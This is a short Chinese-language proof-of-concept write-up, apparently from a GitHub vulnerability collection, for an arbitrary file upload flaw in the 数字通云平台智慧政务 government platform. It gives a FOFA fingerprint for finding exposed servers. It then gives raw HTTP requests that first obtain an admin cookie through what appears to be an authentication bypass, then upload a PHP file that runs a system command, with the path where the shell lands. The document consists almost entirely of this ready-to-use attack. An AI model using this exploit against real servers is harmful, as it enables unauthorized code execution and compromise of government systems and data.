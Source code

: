 # 数字通云平台智慧政务setting存在文件上传漏洞

数字通云平台智慧政务setting存在文件上传漏洞，允许攻击者上传恶意文件到服务器，可能导致远程代码执行、网站篡改或其他形式的攻击，严重威胁系统和数据安全。

## fofa

```java
body="assets/8cca19ff/css/bootstrap-yii.css"
```

## poc

获取cookie

```javascript
POST /portal/default/login HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0

userID=admin&flag=rone
```

携带cookie

```javascript
POST /sys/mobile/setting HTTP/1.1
Host: 
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: your-cookie
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------318638034016337576332132513456

-----------------------------318638034016337576332132513456
Content-Disposition: form-data; name="MobileApplication[cert]"; filename="1.php"
Content-Type: application/octet-stream

<?php system("whoami");unlink(__FILE__);?>
-----------------------------318638034016337576332132513456--
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409201619573.png)

文件路径：`/static/seal/1.php`